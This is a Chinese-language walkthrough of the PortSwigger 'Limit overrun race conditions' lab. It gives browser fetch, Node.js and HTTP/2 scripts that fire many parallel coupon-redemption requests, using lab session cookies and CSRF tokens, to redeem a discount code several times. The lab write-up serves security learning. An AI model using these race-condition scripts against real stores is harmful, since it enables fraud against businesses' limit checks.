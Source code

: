 ```yaml
---
title: Race conditions
description: Race conditions
---
```


## Lab: Limit overrun race conditions

| Dimension | Description                                                                            |
| --------- | -------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions     |
| Lab       | https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun |

這題很簡單，就是要同時送出很多個兌換碼的 HTTP Request，但很可惜，但要在瀏覽器控制併行送出多個請求會比較困難

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(couponForm.action, {
    method: "post",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
  });
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

稍微調整一下，改用 NodeJS 試試看

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(
    "https://0a1c00990378dd4680117b6b00a700ae.web-security-academy.net/cart/coupon",
    {
      method: "post",
      headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        Cookie: "session=oQf2bCYK3mMzTQnM3OP1YuZbr6mNFlen",
      },
      body: sp.toString(),
    },
  );
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

結果更廢，大概只有 成功兌換 1 ~ 2 張折價券，看來需要尋找一個可以併行送出多個請求的 script 或工具

後來嘗試用 NodeJS 的 http2 模組，成功率有大幅上升，可惜我還沒寫 HTTP2 的文章，就要先碰到 HTTP2 的知識QQ

```ts
import http2, { ClientHttp2Session } from "http2";

const client1 = http2.connect(
  "https://0aeb00a00410a86b81408080007800c2.web-security-academy.net",
);
const client2 = http2.connect(
  "https://0aeb00a00410a86b81408080007800c2.web-security-academy.net",
);
const sp = new URLSearchParams();
sp.append("csrf", "eR7LzJBiKxvQVa8HadtAQcjUw6iYeWtN");
sp.append("coupon", "PROMO20");
const body = sp.toString();
const contentLength = Buffer.byteLength(body);

function applyCoupon(client: ClientHttp2Session, idx: number) {
  const request = client.request({
    ":method": "POST",
    ":path": "/cart/coupon",
    "Content-Type": "application/x-www-form-urlencoded",
    Cookie: "session=D3JPEkSb1gMHkQY9BjgzZZCqZm5kxXN0",
    "Content-Length": contentLength,
  });
  request.end(body);
  // const chunks: any[] = []
  request.on("response", (headers) => {
    const isSuccess =
      headers.location === "/cart" && headers[":status"] === 302;
    console.log({ isSuccess, client: idx % 2 === 0 ? "client1" : "client2" });
  });
  // request.on('data', (chunk) => chunks.push(chunk))
  // request.on('end', () => console.log(Buffer.concat(chunks).toString('utf8')))
}

Array(40)
  .fill(0)
  .map((_, idx) =>
    idx % 2 === 0 ? applyCoupon(client1, idx) : applyCoupon(client2, idx),
  );
```

成功解題，雖然不是每次都能穩穩地兌換 10 幾張折價券，但至少成功率比 fetch 高太多了

後來我看了解答，發現 Burp Repeater 也可以做到同樣的事情，且不用寫任何程式碼，也是蠻方便的

## 參考資料

- https://portswigger.net/web-security/race-conditions
